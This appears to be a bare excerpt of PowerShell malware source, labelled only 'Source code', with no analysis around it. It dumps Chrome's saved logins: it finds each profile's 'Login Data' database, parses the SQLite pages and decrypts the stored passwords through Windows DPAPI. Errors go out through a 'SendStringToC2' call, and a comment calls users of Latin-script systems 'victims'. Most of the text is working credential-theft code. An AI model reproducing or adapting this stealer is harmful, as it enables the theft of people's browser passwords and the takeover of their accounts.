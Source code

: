 ```csharp
Function DecodePasswordChrome($Password)
{
  try
  {
    $P = $Encoding.GetBytes($Password)
    try
    {
      $Decrypt = [System.Security.Cryptography.ProtectedData]::Unprotect($Password,$null,[System.Security.Cryptography.DataProtectionScope]::CurrentUser)
      Return [System.Text.Encoding]::Default.GetString($Decrypt);
    }
    Catch { Return "" }
  }
  catch { SendStringToC2 "crederror=ERR:DecodePasswordChrome: $($_.Exception.Message)";}  
}

function chrome_dump()
{
  try
  {
    $global:chromeInfo = @{};
    $global:chromeError = "SUCCESS"
    $dbFilePath = "$($Env:USERPROFILE)\AppData\Local\Google\Chrome\User Data\*\Login Data"
    $dbFiles = $(Get-ChildItem $dbFilePath).FullName;       
    if($dbFiles.Count -le 0 -and $dbFiles.Length -le 0) { $global:chromeError = "NO PROFILES";  }  
    foreach($dbFile in $dbFiles) 
    {
        if($dbFile -ne $null) 
        {
            if(([System.IO.File]::Exists($dbFile))) 
            {
                $Stream = New-Object IO.FileStream -ArgumentList "$dbFile", 'Open', 'Read', 'ReadWrite'
                Add-Type -AssemblyName System.Security
                $Encoding = [System.Text.Encoding]::GetEncoding(28591) # -> iso-8859-1 -> Western Europe (ISO) -> Latin languages victims
                $StreamReader = New-Object IO.StreamReader -ArgumentList $Stream, $Encoding
                $BinaryText = $StreamReader.ReadToEnd()
                $StreamReader.Close()
                $Stream.Close()
                $SerialMap = @{0=0; 1=1; 2=2; 3=3; 4=4; 5=5; 6=6; 7=8; 8=0; 9=0}
                If ((Compare-Object $BinaryText[0x0 .. 0x5] @('S', 'Q', 'L', 'i', 't', 'e')) -eq $null) #Text -> SQLite input
                {
                    $NumPages = __ToInt($BinaryText[0x1C .. 0x1F])
                    $PageSize = __ToInt($BinaryText[0x10 .. 0x11])
                    for($x = 0x2; $x -lt $NumPages; $x++)
                    {
                        $PageStart = ($x * $PageSize);
                        ParseSQLite $BinaryText[$PageStart .. ($PageStart + $PageSize - 1)] # Parse the cells
                    }
                }
			}
        }
    }
    return @{"logs" = "$global:log"; "error" = $global:chromeError; "info" = $global:chromeInfo}    
  }
  catch { SendStringToC2 "crederror=ERR:chrome_dump: $($_.Exception.Message)";}
}
```
